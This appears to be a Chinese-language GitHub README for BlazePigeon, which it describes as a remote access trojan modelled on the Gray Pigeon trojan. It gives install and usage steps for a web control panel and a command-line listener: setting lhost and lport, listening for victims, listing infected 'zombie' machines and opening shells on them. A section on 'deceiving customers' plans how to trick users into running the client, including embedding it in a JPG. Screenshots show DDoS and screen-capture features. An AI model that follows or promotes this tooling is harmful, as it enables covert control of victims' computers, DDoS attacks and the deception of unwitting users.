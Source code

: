 # BlazePigeon

## 介绍
BlazePigeon(仿[灰鸽子](https://www.freebuf.com/sectool/273317.html))--远程访问型木马。

![img.png](docs/imgs/prin.png)

## 重要依赖包
```shell
pip install mysql

pip install lxml

pip install pywin32api

pip install requests
```

## 使用说明
有两种模式可以进行使用，web模式和命令行模式

### web模式
- 进入BlazePigeon文件夹，启动web服务
```shell
python manage.py runserver 80 
```
- 访问： http://127.0.0.1:80
- 先要在客户端设置中设置客户端的ip信息
- 检测服务是否在线/截图【Bug: 由于每个socket上只能在一个线程中工作，为防止出错，请在截图前检测是否在线以重新建立连接】

### 命令行模式
- 运行`server.py`
```shell
python server.py
```

- 设置ip和port
```shell
set lhost xxxx

set lport xxxx 
```

- 可用命令【建议按照顺序执行】
- `exploit`: 进行监听客户端
- `sessions`: 进行查看当前在线肉鸡数 
- `shell <id>`: 控制客户端为id的shell, 之后使用`shell`进入客户端的shell
- 使用正确的shell命令【cmd命令集 | linux shell命令集】进行“为所欲为”
- `exit`: 推出程序

## 欺骗客户
- 在有了以上的监控平台，下一步就是怎么“欺骗”用户可以在机器上运行`client.exe`，以此来建立监控的链接。
- 我想的是在JPG文件中嵌入exe执行文件，然后在双击jpg文件时默默执行嵌入其中的恶意软件，但事实是在Windows上基本无法实现
> In the old days it was possible to exploit when clicking on image exploits or when Windows OS was creating a thumbnail to show the image file itself as an icon. However, with the recent kernel-level updates of the operating system (ASLR, DEP, etc.), the Windows operating system has become difficult to exploit even if there is a new vulnerability. It didn't work out well in my few attempts. However, the situation is different in browsers. It is possible to run malware only when viewing file contents such as pictures, audio, video via browsers. It is not mentioned much yet that such vulnerabilities create a very dangerous situation for mobile devices.
- 鉴于此，只能写一个程序来解析JPG图片中的恶意程序，那么怎么来解决了解析软件的客户欺骗呢？似乎形成了一个闭环，emmmmm

## 展示

- Login

![img1](./docs/imgs/img0.png)

- Home

![img.png](docs/imgs/img.png)

- Client Setting

![img_1.png](docs/imgs/img_1.png)

- DDos Setting

![img_2.png](docs/imgs/img_2.png)

- Screen Shoot

![img3.png](docs/imgs/img3.png)